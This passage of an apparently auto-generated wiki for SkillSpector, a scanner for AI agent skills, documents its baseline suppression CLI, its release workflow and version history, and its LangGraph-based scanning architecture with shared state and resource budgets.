
Sources: [src/skillspector/suppression.py:163-228](), [src/skillspector/models.py:53-85]()

---

## CLI Usage

### Generating a Baseline
To create a baseline of all current findings in a skill:
```bash
skillspector baseline ./path/to/skill -o .skillspector-baseline.yaml
```
This command performs a scan and writes a baseline that fingerprint-suppresses every current finding [docs/SUPPRESSION.md:37]().

### Scanning with a Baseline
To exclude known issues from the risk score:
```bash
skillspector scan ./path/to/skill --baseline .skillspector-baseline.yaml
```
Findings matching the baseline are:
*   **Excluded** from the final risk score calculation [docs/SUPPRESSION.md:12]().
*   **Hidden** from terminal/markdown output unless `--show-suppressed` is used [docs/SUPPRESSION.md:13-14]().
*   **Preserved** in SARIF output but marked with an external suppression [docs/SUPPRESSION.md:13]().
*   **Included** in JSON output under the `suppressed` key for machine consumption [docs/SUPPRESSION.md:15-16]().

### Exit Codes
If a `--baseline` file is specified but is missing, malformed, or an unsupported version (e.g., v1 fingerprints), the CLI exits with **code 2** [docs/SUPPRESSION.md:41](), [src/skillspector/suppression.py:245-255]().

Sources: [src/skillspector/cli.py:121-142](), [docs/SUPPRESSION.md:22-47](), [src/skillspector/suppression.py:231-262]()

---

# Page: Release History and Versioning

# Release History and Versioning

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [.github/workflows/release.yml](.github/workflows/release.yml)
- [CHANGELOG.md](CHANGELOG.md)
- [docs/release/skillspector-2.11.0.md](docs/release/skillspector-2.11.0.md)
- [docs/release/skillspector-2.11.1.md](docs/release/skillspector-2.11.1.md)
- [docs/release/skillspector-2.5.1.md](docs/release/skillspector-2.5.1.md)
- [docs/release/skillspector-2.9.6.md](docs/release/skillspector-2.9.6.md)
- [pyproject.toml](pyproject.toml)
- [scripts/release/public/create_github_release.py](scripts/release/public/create_github_release.py)
- [tests/unit/test_create_github_release.py](tests/unit/test_create_github_release.py)
- [tests/unit/test_github_release_workflow.py](tests/unit/test_github_release_workflow.py)
- [uv.lock](uv.lock)

</details>


## Purpose and Scope

This page details how releases are cut, versioned, and documented within the SkillSpector codebase. It covers the structure of `CHANGELOG.md`, versioned release notes under `docs/release/`, the label-gated GitHub Actions release workflow (`.github/workflows/release.yml`), the release tooling script (`scripts/release/public/create_github_release.py`), and a summary of notable feature evolution across the 2.x version history.

Sources: [pyproject.toml:1-12](), [CHANGELOG.md:1-8](), [.github/workflows/release.yml:1-15](), [scripts/release/public/create_github_release.py:1-35]()

---

## Version Identification and Metadata

SkillSpector adheres to Semantic Versioning (SemVer) and manages project identity, dependency boundaries, and build configurations in `pyproject.toml`. The active project version is declared under the `[project]` table and is read programmatically by release scripts and distribution tools.

```toml
[project]
name = "skillspector"
version = "2.11.1"
description = "SkillSpector: Security scanner for AI agent skills..."
requires-python = ">=3.12,<3.15"
```

Sources: [pyproject.toml:5-11]()

---

## Release Documentation Architecture

SkillSpector maintains a dual release documentation strategy consisting of an aggregated changelog and granular, version-specific release notes.

### `CHANGELOG.md`
The root `CHANGELOG.md` records all version updates, categorized by features, bug fixes, supply chain improvements, and security hardening [CHANGELOG.md:1-8](). Each entry specifies the exact date and key pull requests associated with the release [CHANGELOG.md:1-8]().

### Versioned Release Notes (`docs/release/*`)
For every major, minor, or significant patch release, a detailed Markdown file is maintained under `docs/release/` (e.g., `docs/release/skillspector-2.11.1.md`) [scripts/release/public/create_github_release.py:35-38](). These notes contain:
- **Summary & Highlights**: High-level overview of changes [docs/release/skillspector-2.11.1.md:5-14]()
- **Added / Changed / Fixed / Security**: Granular breakdown of code modifications [docs/release/skillspector-2.11.1.md:15-37]()
- **Breaking Changes and Migration**: Guidance on environment variables or configuration adjustments [docs/release/skillspector-2.11.1.md:38-42]()
- **Validation**: Exact verification commands (`uv lock --check`, `pytest`, `ruff check`) and validation counts [docs/release/skillspector-2.11.1.md:48-56]()
- **Known Limitations & References**: Associated GitHub PR links [docs/release/skillspector-2.11.1.md:58-70]()

Sources: [CHANGELOG.md:1-8](), [docs/release/skillspector-2.11.1.md:1-70](), [scripts/release/public/create_github_release.py:35-38]()

---

## Release Automation: GitHub Actions Workflow

Releases are fully automated via a label-gated GitHub Actions workflow defined in `[.github/workflows/release.yml]()`. The workflow is triggered when a pull request targeting `main` is closed and merged with the `release:publish` label.

```mermaid
graph TD
    PR[PullRequestClosed] --> Check[GitHubActionsWorkflow]
    Check -->|Merged & Labeled release:publish| Checkout[actions/checkout@v4]
    Checkout --> SetupUV[astral-sh/setup-uv@v5]
    SetupUV --> Sync[uv sync --locked --extra dev]
    Sync --> Build[python -m build --no-isolation]
    Build --> Twine[twine check dist/*]
    Twine --> ReleaseScript[create_github_release.py]
    ReleaseScript --> GitHubAPI[GitHubReleasesAPI]

    style PR fill:none,stroke:#000,stroke-width:1px
    style Check fill:none,stroke:#000,stroke-width:1px
    style ReleaseScript fill:none,stroke:#000,stroke-width:1px
    style GitHubAPI fill:none,stroke:#000,stroke-width:1px
```

### Workflow Mechanics
1. **Trigger Condition**: `.github/workflows/release.yml` listens to `pull_request` events with types `[closed]` restricted to the `main` branch [/.github/workflows/release.yml:6-10]().
2. **Job Gate**: The `publish` job evaluates `github.event.pull_request.merged == true` and verifies the presence of the `release:publish` label [/.github/workflows/release.yml:25-29]().
3. **Environment Setup**: Uses pinned actions (`actions/checkout@v4` [/.github/workflows/release.yml:33](), `astral-sh/setup-uv` [/.github/workflows/release.yml:38]()) with locked dependencies (`uv.lock`) [/.github/workflows/release.yml:42]() and Python 3.12 [/.github/workflows/release.yml:20]().
4. **Artifact Compilation**: Builds source and wheel distributions using `python -m build --no-isolation` and verifies them with `twine check dist/*` [/.github/workflows/release.yml:46-49]().
5. **Release Publication**: Invokes `scripts/release/public/create_github_release.py` targeting the merge commit SHA [/.github/workflows/release.yml:54-58]().

Sources: [.github/workflows/release.yml:1-58]()

---

## Release Tooling Script (`create_github_release.py`)

The script `[scripts/release/public/create_github_release.py]()` manages interaction with the GitHub API via the `gh` CLI and Python standard libraries. It reads project metadata, verifies git tags, and attaches build artifacts to GitHub releases.



### Key Functions and Classes
- `_project_version(path: Path) -> str`: Opens `pyproject.toml`, parses TOML using `tomllib`, and extracts the `version` string from the `project` table [scripts/release/public/create_github_release.py:29-33]().
- `_release_notes_path(version: str) -> Path`: Constructs the filesystem path to version-specific release notes (`docs/release/skillspector-{version}.md`) [scripts/release/public/create_github_release.py:35-38]().
- `_resolve_tag_target(repository: str, tag: str) -> str | None`: Queries the GitHub API for tag references, recursively peeling annotated tag objects until resolving to a commit SHA [scripts/release/public/create_github_release.py:75-97]().
- `_ensure_tag_at_target(repository: str, tag: str, target: str) -> None`: Validates that a git tag exists and points to the correct target commit before publishing [scripts/release/public/create_github_release.py:127-141]().
- `_reconcile_existing_release(...)`: Handles draft release recovery, asset upload retries, and publication updates if a release pipeline reruns [scripts/release/public/create_github_release.py:175-190]().

Sources: [scripts/release/public/create_github_release.py:29-190]()

---

## Notable Feature Evolution Across 2.x Versions

SkillSpector's 2.x release cycle has introduced critical architectural and security capabilities:

| Version | Release Date | Key Features & Enhancements |
| :--- | :--- | :--- |
| **2.11.1** | Sep 7, 2026 | Increased default aggregate workflow deadline to 600s (`SKILLSPECTOR_MAX_WORKFLOW_SECONDS`), fixed finding classification preservation during deduplication, and bounded total in-flight LLM requests [CHANGELOG.md:1-8](). |
| **2.11.0** | Aug 28, 2026 | Expanded supply-chain coverage to npm lockfiles (`package-lock.json`, `npm-shrinkwrap.json`), added bundled lifecycle hook analysis (BH1–BH3), and introduced LLM sampling controls (`SKILLSPECTOR_TEMPERATURE`, `SKILLSPECTOR_SEED`) [CHANGELOG.md:9-18](). |
| **2.10.0** | Aug 26, 2026 | Added opt-in transitive reference scanning (`--transitive`), phase-1 structured skill summaries, external model provider selection detection (EA5), and strengthened resource bounds [CHANGELOG.md:19-44](). |
| **2.9.5** | Aug 14, 2026 | Added Ollama, Azure OpenAI, and generic OpenAI-compatible providers, opt-in author-shipped baseline discovery, and insecure deserialization analyzers (AST10, TT6, DS1–DS4) [CHANGELOG.md:49-58](). |
| **2.5.1** | Jul 30, 2026 | Introduced `SKILLSPECTOR_MAX_LLM_CONCURRENCY` to tune asynchronous LLM analyzer batch concurrency and prevent rate limit exhaustion [docs/release/skillspector-2.5.1.md:1-15](). |

Sources: [CHANGELOG.md:1-58](), [docs/release/skillspector-2.11.1.md:1-25](), [docs/release/skillspector-2.5.1.md:1-20]()

---

# Page: Core Architecture

# Core Architecture

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [README.md](README.md)
- [docs/DEVELOPMENT.md](docs/DEVELOPMENT.md)
- [docs/release/skillspector-2.9.4.md](docs/release/skillspector-2.9.4.md)
- [src/skillspector/graph.py](src/skillspector/graph.py)
- [src/skillspector/state.py](src/skillspector/state.py)
- [tests/integration/test_graph_scanner.py](tests/integration/test_graph_scanner.py)

</details>


This page provides a high-level overview of the SkillSpector pipeline, built on the **LangGraph** orchestration framework. SkillSpector treats security analysis as a stateful graph execution where a skill's source code and metadata flow through a series of specialized nodes to produce a risk-scored SARIF report. 

For deep technical details on individual subsystems, refer to the child pages linked throughout this document.

---

## The LangGraph Pipeline and Topology

SkillSpector utilizes a `StateGraph` defined in `src/skillspector/graph.py` to manage the lifecycle of a scan [src/skillspector/graph.py:36-59](). The architecture follows a linear-parallel-linear topology:
1.  **Preparation**: Input normalization and context extraction.
2.  **Analysis (Fan-out)**: Parallel execution of registered analyzer nodes.
3.  **Synthesis (Fan-in)**: LLM-powered filtering, inspection ledger finalization, risk scoring, and report generation.

### System Workflow Topology


**Sources:** [src/skillspector/graph.py:36-88](), [docs/DEVELOPMENT.md:107-123]()

For details on the `StateGraph` mechanics, reducers (`operator.add`), and execution deadlines, see **[Graph Workflow and State](#2.1)**.

---

## Shared State Schema and Resource Budgets

The `SkillspectorState` is a `TypedDict` that serves as the single source of truth flowing through the graph [src/skillspector/state.py:48-134](). It maintains the file cache, parsed manifests, and the growing list of security findings. Additionally, aggregate resource consumption is governed by `WorkflowResourceBudget`.

| Category | Key Fields | Purpose |
| :--- | :--- | :--- |
| **Inputs** | `input_path`, `skill_path` | Tracks raw input vs. the normalized local directory [src/skillspector/state.py:52-53](). |
| **Context** | `file_cache`, `manifest`, `component_metadata` | Stores file contents and parsed `SKILL.md` metadata for analyzers [src/skillspector/state.py:61-67](). |
| **Findings** | `findings`, `filtered_findings` | `findings` uses `merge_findings_by_id` to accumulate parallel results [src/skillspector/state.py:71](). |
| **Audit & Budget** | `inspection_ledger`, `workflow_resource_budget` | Tracks skipped/failed files and runtime/byte limits [src/skillspector/state.py:80-99](). |
| **Output** | `sarif_report`, `risk_score`, `report_body` | Final structured and formatted results [src/skillspector/state.py:118-130](). |

**Sources:** [src/skillspector/state.py:48-145](), [docs/DEVELOPMENT.md:72-100]()

---

## Input Resolution and Context Building

Before analysis begins, the graph resolves target inputs through `resolve_input` [src/skillspector/graph.py:44](). This node handles diverse sources like Git URLs, file URLs, ZIP archives, single `.md` files, or directories while enforcing safety boundaries (SSRF guards, zip-slip checks, and ingest caps). Once resolved, `build_context` crawls the directory to populate `file_cache`, `manifest`, and `component_metadata` [src/skillspector/graph.py:45]().

### Input to Context Mapping


**Sources:** [src/skillspector/graph.py:44-45](), [src/skillspector/state.py:52-67]()

For a comprehensive explanation of input normalization and multi-skill detection for `--recursive`, see **[Input Resolution and Context Building](#2.2)**.

---

## Data Models and SARIF Output

SkillSpector models findings using core types such as `Finding`, `AnalyzerFinding`, `Location`, and `Severity`. These are transformed into SARIF 2.1.0 Pydantic models during reporting. Risk scores are computed using a diminishing returns formula that maps raw severities to numeric scores and categories (LOW, MEDIUM, HIGH, CRITICAL).

For reference on core data types, the `AnalyzerPlugin` protocol, and risk scoring algorithms, see **[Data Models and SARIF Output](#2.3)**.

**Sources:** [src/skillspector/models.py:1-120](), [docs/DEVELOPMENT.md:98-102]()

---

## Artifact Classification and Text Normalization

The analysis pipeline inspects raw bytes using modules in `artifacts.py`. It classifies content via `ContentKind` and `ArtifactDisposition`, builds multi-view security text projections to defeat obfuscation, handles unicode confusables, manages nested artifacts, and extracts source references.

For details on artifact handling and obfuscation resistance, see **[Artifact Classification and Text Normalization](#2.4)**.

**Sources:** [src/skillspector/artifacts.py:1-100]()

---

## Inspection Ledger, Completeness and Resource Bounds

The audit subsystem tracks execution reliability via `InspectionLedgerEvent`, `LedgerOutcome`, and `LedgerReason`. The `finalize_inspection_ledger` node evaluates analysis completeness and coverage percentages. Resource enforcement follows a fail-closed model bounding time, memory, and finding counts.

For details on the audit ledger and resource bounds, see **[Inspection Ledger, Completeness and Resource Bounds](#2.5)**.

**Sources:** [src/skillspector/inspection_ledger.py:1-150](), [docs/ANALYSIS_RESOURCE_BOUNDS.md:1-50]()

---

## Transitive Reference Traversal

When scanning repositories with external dependencies or referenced agent skills, SkillSpector supports bounded transitive traversal via `--transitive`. This mechanism uses `transitive.py` and `references.py`, managed under a `_TransitiveTraversalState` budget that tracks targets, bytes, artifacts, time, and prefix filters.

For implementation details on recursive reference traversal, see **[Transitive Reference Traversal](#2.6)**.

**Sources:** [src/skillspector/transitive.py:1-80](), [src/skillspector/references.py:1-60]()

---

# Page: Graph Workflow and State

# Graph Workflow and State

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [docs/release/skillspector-2.9.4.md](docs/release/skillspector-2.9.4.md)
- [src/skillspector/cleanup.py](src/skillspector/cleanup.py)
- [src/skillspector/constants.py](src/skillspector/constants.py)
- [src/skillspector/graph.py](src/skillspector/graph.py)
- [src/skillspector/nodes/resolve_input.py](src/skillspector/nodes/resolve_input.py)
- [src/skillspector/providers/__init__.py](src/skillspector/providers/__init__.py)
- [src/skillspector/state.py](src/skillspector/state.py)
- [tests/integration/test_graph.py](tests/integration/test_graph.py)
- [tests/integration/test_graph_scanner.py](tests/integration/test_graph_scanner.py)
- [tests/nodes/test_resolve_input.py](tests/nodes/test_resolve_input.py)
- [tests/unit/test_constants.py](tests/unit/test_constants.py)

</details>


SkillSpector utilizes a LangGraph-based `StateGraph` to orchestrate its security analysis pipeline [src/skillspector/graph.py:40-42](). The workflow transitions from input normalization and context building to a parallel fan-out of specialized analyzer nodes, converging through meta-analysis, ledger finalization, and reporting [src/skillspector/graph.py:78-87](). This architecture ensures that findings from diverse sources (static patterns, behavioral analysis, supply-chain checks, and LLM-based discovery) are unified into a single state structure with strict resource bounds.

Sources: [src/skillspector/graph.py:40-88]()

## SkillspectorState Schema and Reducers

The core of the workflow is `SkillspectorState`, a `TypedDict` that acts as the shared memory across all graph nodes [src/skillspector/state.py:16-43](). It manages the scan lifecycle from input ingestion to finalized reports.

| Key | Type | Description |
| :--- | :--- | :--- |
| `input_path` | `str \| None` | Raw input specified by the user (URL, Git repository, archive, or local path). |
| `skill_path` | `str \| None` | Resolved local directory containing the skill source code [src/skillspector/nodes/resolve_input.py:16-21](). |
| `temp_dir_for_cleanup` | `str \| None` | Path to any temporary directory created during input resolution, targeted for cleanup [src/skillspector/nodes/resolve_input.py:19-20](). |
| `file_cache` | `dict[str, str]` | Mapping of canonical relative filenames to their full UTF-8 text contents. |
| `findings` | `Annotated[list[Finding], merge_findings_by_id]` | Primary accumulator for security findings, merged by opaque identifier [src/skillspector/state.py:175-176](). |
| `llm_call_log` | `Annotated[list[LLMCallRecord], operator.add]` | Telemetry logging LLM executions, accumulated via `operator.add`. |
| `use_llm` | `bool` | Global toggle enabling or disabling LLM-powered analyzer nodes. |
| `workflow_resource_budget` | `WorkflowResourceBudget \| None` | Aggregate execution timeout, byte, and artifact bounds shared across nodes [src/skillspector/state.py:80-99](). |
| `transitive_traversal_state` | `object \| None` | Bounded traversal state for external references when `--transitive` is active. |

### Finding Accumulator and Reducer Implementation
Unlike standard list concatenation, the `findings` list uses the custom reducer `merge_findings_by_id` [src/skillspector/state.py:175-176](). This function consolidates findings from parallel analyzer nodes by their opaque `finding_id`. When a finding with an existing ID is re-emitted (such as during meta-analyzer enrichment), the existing instance is updated in place [src/skillspector/state.py:175-176]().

Sources: [src/skillspector/state.py:16-176]()

## Workflow Resource Budgets and Deadlines

Graph execution is governed by `WorkflowResourceBudget`, a dataclass that enforces aggregate limits across all workflow nodes [src/skillspector/state.py:80-99](). 

### Resource Constraints and Enforcement
- **Aggregate Timeouts:** Controlled by `SKILLSPECTOR_MAX_WORKFLOW_SECONDS` (defaulting to `600.0` seconds) [src/skillspector/state.py:46-74](). The clock is initialized at the start of `resolve_input` and checked across all nodes [src/skillspector/nodes/resolve_input.py:52-55]().
- **Byte Ceilings:** `MAX_WORKFLOW_BYTES` bounds total processed content to `64 * 1024 * 1024` bytes (64 MiB) [src/skillspector/state.py:75]().
- **Artifact Bounds:** `MAX_WORKFLOW_ARTIFACTS` caps discovered files at `10,000` [src/skillspector/state.py:76]().

The helper function `ensure_workflow_resource_budget()` retrieves or initializes this budget, ensuring child scans and parallel nodes share a single source of truth for remaining time and byte allowances [src/skillspector/state.py:147-164]().

Sources: [src/skillspector/state.py:46-173](), [src/skillspector/nodes/resolve_input.py:52-55]()

## Graph Topology and Fan-Out/Fan-In Flow

The workflow graph is constructed in `create_graph()` [src/skillspector/graph.py:40-88]() and executes in distinct sequential and parallel phases.

### Execution Phases
1. **Input Resolution (`resolve_input`)**: Normalizes `input_path` or `skill_path` into a local directory and starts the workflow budget timer [src/skillspector/nodes/resolve_input.py:41-55]().
2. **Context Building (`build_context`)**: Reads local files into `file_cache`, parses the manifest, and detects structural components.
3. **Parallel Analysis Fan-Out**: Dynamically iterates over registered identifiers in `ANALYZER_NODE_IDS`, checking availability and API key requirements before adding nodes [src/skillspector/graph.py:55-73](). All enabled analyzer nodes execute in parallel [src/skillspector/graph.py:81-82]().
4. **Meta-Analysis Consolidation (`meta_analyzer`)**: Acts as the fan-in convergence point, waiting for all parallel analyzers to finish before performing enrichment and contextual filtering [src/skillspector/graph.py:83]().
5. **Ledger Finalization & Reporting (`finalize_inspection_ledger` → `report`)**: Records audit outcomes, computes final risk scoring, and formats the output [src/skillspector/graph.py:85-87]().

### Diagram: Graph State Transition and Topology

Sources: [src/skillspector/graph.py:40-88](), [src/skillspector/state.py:80-164]()

## Code Entity Space Mapping

The following diagram bridges the logical workflow concepts to their concrete Python implementations across modules.

### Diagram: Logical Architecture to Code Entities
